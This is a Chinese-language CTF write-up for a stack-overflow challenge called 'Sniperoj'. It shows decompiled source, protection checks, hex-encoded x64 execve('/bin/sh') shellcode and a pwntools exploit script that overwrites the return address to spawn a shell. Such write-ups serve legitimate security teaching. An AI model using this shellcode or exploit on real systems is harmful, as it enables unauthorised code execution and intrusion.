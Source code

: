 # 查看程序源码

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 buf; // [sp+0h] [bp-10h]@1
  __int64 v5; // [sp+8h] [bp-8h]@1

  buf = 0LL;
  v5 = 0LL;
  setvbuf(_bss_start, 0LL, 1, 0LL);
  puts("Welcome to Sniperoj!");
  printf("Do your kown what is it : [%p] ?\n", &buf, 0LL, 0LL);
  puts("Now give me your answer : ");
  read(0, &buf, 0x40uLL);
  return 0;
}
```

 可以发现，程序中有一个栈溢出的漏洞，并且还给了对应的buf的地址。

# 检测程序的安全机制

```text
Canary                        : No
NX                            : No
PIE                           : Yes
Fortify                       : No
RelRO                         : Partial
```

可以看到程序中并没有设置堆栈执行保护。所以我们可以直接布置shellcode，然后跳转执行。

# 布置shellcode

通过

```C
  __int64 buf; // [sp+0h] [bp-10h]@1
  read(0, &buf, 0x40uLL);
```

可以知道buf相对于ebp的偏移为0x10,所以其可用的shellcode空间为16+8=24。我找了到了一个长度为23的shellcode。但是其本身是有push指令的，这时候如果我们把shellcode放在最前面，在程序leave的时候，在执行这些就会被覆盖。

```text
# char *const argv[]
xorl %esi, %esi
# 'h' 's' '/' '/' 'n' 'i' 'b' '/'
movq $0x68732f2f6e69622f, %rbx
# for '\x00'
pushq %rsi
pushq %rbx
pushq %rsp
# const char *filename
popq %rdi
# __NR_execve 59
pushq $59
popq %rax
# char *const envp[]
xorl %edx, %edx
syscall

shellcode_x64 = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
```

所以我把它放在后面，payload为

```
'b'*24+[buf_addr+32]+shellcode_x64
```

# exp

```python
from pwn import *
from LibcSearcher import *
code = ELF('./shellcode')
if args['REMOTE']:
    sh = remote(111, 111)
else:
    sh = process('./shellcode')

# 23 bytes
# https://www.exploit-db.com/exploits/36858/
shellcode_x64 = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
sh.recvuntil('[')
buf_addr = sh.recvuntil(']', drop=True)
buf_addr = int(buf_addr, 16)
payload = 'b' * 24 + p64(buf_addr + 32) + shellcode_x64
print payload
#gdb.attach(sh)
sh.sendline(payload)
sh.interactive()
```

